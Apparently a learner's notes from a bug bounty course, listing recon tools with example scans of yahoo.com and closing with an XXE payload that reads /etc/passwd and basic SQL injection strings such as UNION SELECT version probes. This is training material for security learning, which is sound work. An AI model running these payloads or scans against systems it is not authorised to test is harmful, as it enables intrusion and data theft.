 

## Bug Bounty Course 2024

Quote:

You want to know the difference between a master and a beginner?
[The Master has failed more times than the beginner has ever tried]

**Video Link:**
[Bug_Bounty_Course](https://www.youtube.com/watch?v=TTw-EY7F1rM)

**Websites for Bug Bounty**

- HackerOne

**Steps to find the first bug bounty**
- Find a platform that is familiar
- Find a bug bounty program that is latest
- Find a bug bounty program with no rewards for less competition
- Follow developers and find the github's for more details

**Full Forms:**

- CVE - Common Vulnerabilities and Exposures
- CIDR notation - Classless Inter-Domain Routing notation
- CMS (Content Management System) - Software used to create, modify and update the contents of the web site which uses a database to manage all the contents. Ex: Wordpress
- DNS (Domain Name System)
- TLD (Top Level Domain) Ex: .com .org .uk .eu .in and etc
- CTF (Capture the Flag) This is a popular cybersecurity exercise or competition where participants find and exploit vulnerabilities in a system to capture a hidden piece of information or "flag".

**In-Line Commands in linux:**
- gedit (to edit files)
- gunzip (to unzip gz or other files)
- host DNS (Ex: host yahoo.com) (To find the IP address)
- ping DNS 

---

### Different type of things/actions can be done during bug bounty:

**Fuzzing**:
- Fuzzing can be used to go through a set of keywords in a particular section to find the different sub domains or other things, we can use the subdomain in an URL to find the different sub domains

---
### Tools:

**Shodan**
-  (Shodan can be used via command line in kali linux or through the GUI in browser (shadon.io))
- Shodan host (IP address) [ this command can be used to find the open ports and the transportation protocol being used and the SSl versions and other details]

**nmap**
-  Alternative of shodan
- nmap is a port scanner
- If we are working on a bug bounty program, it is feasible to provide the specific ports to knock and test rather than testing on all the open ports using nmap

**FFuF**
- This tool is helpful for fuzzing for sub domains using a wordlists
- Ex: ```ffuf -u https://FUZZ.yahoo.com/ -w /usr/share/wordlists/dirb/common.txt -p 1``` 
- ffuf can also be used to find API endpoints 
- Ex: ```ffuf -u https://api.yahoo.com/FUZZ -w /usr/share/wordlists/dirb/common.txt```
- ffuf can also be used to find directories

**durb**
- This is another alternative for FFuF, to find the subdomains
- Ex: dirb https://yahoo.com

**wpscan**
- This is another tool helps to find the details and vulnerabilities in a word press application


**Burp Suite:**
- we can see the ip address of a website in burp suite as well, in the proxy (intercept)

**Cherry Tree:**

- Taking notes is very important for the bug bounty and we can use cherry tree in kali linux to create nodes and sub nodes to sort and create notes as required

**Wappalyzer:**

- Chrome extension/ extension to other browsers to find the technologies being used by the web application or website 

**react developer tools extension** 
-  This extension can be used to identify the react built websites as the extension will light up upon visiting a react based website

**w3techs.com** 
- Similar to wappalyzer to provide all the technologies being used by the site and other details

**dotdotpwn** 
- A tool for the path traversal 
Installation: sudo apt-get install dotdotpwn

***Recon_testing_applications/commands***

**wfuzz**
- This can be used for fuzzing

**dig**
- This can be used for finding the sub domains

**nslookup**
- This can be used to find the port number and ip address from the dns

**whois**
- This i can be used in the recon phase as well, this provides more information about the domain name, where it is registered and other details

**theHarvester**

- This software as well helps with finding the sub domains and other details 

**crt.sh**

- This website can also be used to find the sub domains for recon testing

**wayback**

- To find the older url's and sub domains of the provided url/domain

**httprobe**

- To find the valid URL's in the list of sub domains and domain URLs

***sublist3r***

- Tool to find the sub domains of a URL from different search engines

- **Open list** extension for the browser to open multiple URL's at once to test the sub domains extracted

***amass***
- Another tool to grab all the sub domains of the URL (better version of sublist3r)
- Ex: amass enum -passive -d yahoo.com


---

### Notes:

**Bug_Bounty_Checklist:**

- Bug Bounty checklist is very important before starting a bug bounty program, to track the actions performed and pending tasks to recon and other things

**Recon Phase:**

![URL_detail](image-1.png)

<!--Completed till 1:23:29 -->

**Tools required to start with the bug bounty:**

- Kali linux VM
- gedit (for text editing)
- sublist3r (sudo apt install sublist3r)
sublist3r -d www.yahoo.com
- FFuF
- dirb 
- vpn (in case if ip gets banned)

**CyberChef**:

- We can use cyber chef and inside that magic tab to debug any cookies



**XXE (XML External Entities)**
- we can use XML to perform system actions by system like retrieving a etc/passwd file

- code:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo> 
```

**SQL Injection**
- Basic Commands:
1) ```'+OR+1=1--``` To ignore the where condition and output everything as the 1=1 is true
2) ```'+UNION+SELECT+'abc','def'+FROM+dual--``` To determine the number of column it outputs as union needs to have the same number of column outputs as the initial select statement
3) ```'+UNION+SELECT+BANNER,+NULL+FROM+v$version--``` To retrieve the oracle database, database version
4) ```'+UNION+SELECT+@@version,+NULL#``` To retrieve the mysql and microsoft database version

## Demo Update

